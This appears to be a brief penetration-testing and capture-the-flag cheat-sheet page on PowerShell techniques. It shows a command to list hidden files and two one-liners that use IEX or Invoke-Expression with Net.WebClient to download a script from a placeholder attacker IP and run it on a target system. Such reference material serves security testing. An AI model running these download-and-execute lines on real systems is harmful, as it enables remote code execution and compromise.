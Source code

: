 # PowerShell
This new section is for all Microsoft Powershell-based techniques and syntax used during penetration testing and capture the flag.
## List ALL Files
```
PS> ls -Force
```
## Invoke Expression
The `Invoke-Expression` cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without Invoke-Expression, a string submitted at the command line would be returned (echoed) unchanged.
```
PS C:\Target-System> IEX(New-Object Net.WebClient).downloadString('http://(ATTACKER IP ADDRESS)/(PowerShell Script).ps1')
```
OR
```
PS C:\Target-System> Invoke-Expression(New-Object Net.WebClient).downloadString('http://(ATTACKER IP ADDRESS)/(PowerShell Script).ps1')
```
